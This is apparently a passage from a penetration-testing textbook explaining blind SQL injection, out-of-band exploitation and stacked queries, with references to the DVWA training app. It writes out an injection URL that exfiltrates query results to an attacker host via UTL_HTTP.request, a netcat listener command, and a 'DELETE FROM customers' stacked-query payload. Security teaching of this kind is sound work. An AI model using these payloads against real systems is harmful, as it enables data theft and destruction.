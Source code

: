 The Boolean technique is typically used in blind SQL injection attacks. In blind SQL injection vulnerabilities, the vulnerable application typically does not return an SQL error, but it could return an HTTP 500 message, a 404 message, or a redirect. It is possible to use Boolean queries against an application to try to understand the reason for such error codes.

Figure 6-12 shows an example of a blind SQL injection using the intentionally vulnerable DVWA application.

**_Figure 6-12_** _- Example of a Blind SQL Injection Attack_

![[Pasted image 20240615110151.png]]

**Out-of-Band Exploitation**

The out-of-band exploitation technique is very useful when you are exploiting a blind SQL injection vulnerability. You can use database management system (DBMS) functions to execute an out-of-band connection to obtain the results of the blind SQL injection attack. Figure 6-13 shows how an attacker could exploit a blind SQL injection vulnerability at store.h4cker.org and then force the victim server to send the results of the query (compromised data) to another server (malicious.h4cker.org).

**_Figure 6-13_** _- Example of an Out-of-Band Attack_

![[Pasted image 20240615110403.png]]

Say that the malicious SQL string is as follows:
`https://store.h4cker.org/buyme.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||(SELECT user FROM DUAL)--`

In this example, the attacker is using the value 8 combined with the result of Oracle’s function **UTL_HTTP.request**.

**TIP** To perform this attack, you can set up a web server such as NGINX or Apache or use Netcat to start a listener (for example, **nc -lvp 80**). One of the most common uses of Netcat for penetration testing involves creating reverse and bind shells. A _reverse shell_ is a shell initiated from the victim’s system to the attacker. A bind shell is set up on the victim's system and “binds” to a specific port to listen for an incoming connection from the attacker. A bind shell is often referred to as a _backdoor_.

For cheat sheets that can help you get familiar with different useful commands and utilities (including Netcat), see [_http://h4cker.org/cheat_](http://h4cker.org/cheat). You will learn more about Netcat and reverse and bind shells in Module 8, “Performing Post-Exploitation Techniques.”

---

**Stacked Queries**

In a normal SQL query, you can use a semicolon to specify that the end of a statement has been reached and what follows is a new one. This technique allows you to execute multiple statements in the same call to the database. **UNION** queries used in SQL injection attacks are limited to **SELECT** statements. However, **_stacked queries_** can be used to execute any SQL statement or procedure. A typical attack using this technique could specify a malicious input statement such as the following:

1; DELETE FROM customers

The vulnerable application and database process this statement as the following SQL query:

SELECT * FROM customers WHERE customer_id=1; DELETE FROM customers

---